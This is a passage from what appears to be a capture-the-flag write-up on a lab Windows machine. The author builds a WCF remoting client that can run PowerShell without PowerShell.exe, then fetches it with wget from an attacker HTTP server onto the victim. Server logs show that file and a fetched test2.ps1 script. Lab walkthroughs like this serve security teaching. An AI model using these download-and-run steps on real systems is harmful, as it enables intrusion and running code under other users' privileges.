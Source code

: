 Process 756 was linked to the service `WcfServer`.

```powershell
PS>Get-Childitem -Path C:\ -Recurse -ErrorAction SilentlyContinue | ? {$_.Name -Like "wcfserver"}
```

I did a search to see if I could find this file but it didn't find anything.  It was probably running from a folder that I couldn't see and didn't have permissions to access.  This might mean that it was running with someone else's permissions.  If I could compile my version of the client and transfer it over, I could get this other user to run my implementations of their own code.

```
1>------ Build started: Project: RemotingLibrary, Configuration: Debug Any CPU ------
1>  RemotingLibrary -> C:\Users\User\Desktop\wcf\wcf\RemotingLibrary\bin\Debug\WcfRemotingLibrary.dll
2>------ Build started: Project: Client, Configuration: Debug Any CPU ------
3>------ Build started: Project: Server, Configuration: Debug Any CPU ------
2>  Client -> C:\Users\User\Desktop\wcf\wcf\Client\bin\Debug\WcfClient.exe
========== Build: 3 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========

```
This project was much easier to build, and had no errors.  

![A list of the output files after the successful build of the project](/assets/img/sharp-22-build3.png)

After the project finished building, I had a handful of files.  One of the files that was included was `System.Management.Automation.dll`.  This was interesting, because this is the library that contains the code for actually running PowerShell.  With this included I could run PowerShell commands without PowerShell.exe.

I tried to copy over the compiled files to the `dev` share, but I didn't have the proper permissions to write to it remotely.  I would have to do it the old-fashioned way.

```powershell
PS C:\Users\User\Desktop\wcf\wcf\Client\bin\Release> Compress-Archive -Path . -DestinationPath ./wcf.zip
```

On my Windows VM I zipped up the files I had compiled

```powershell
PS>wget http://10.10.14.172:8090/wcf.zip -o wcf.zip
PS>Expand-Archive -Path ./wcf.zip -DestinationPath ./test
```

I copied the zip file over to the victim machine, extracted it, them ran `WcfClient.exe`.

```
10.10.10.219 - - [24/Apr/2021 14:14:10] "GET /wcf.zip HTTP/1.1" 200 -
10.10.10.219 - - [24/Apr/2021 14:14:36] "GET /test2.ps1 HTTP/1.1" 200 -
```
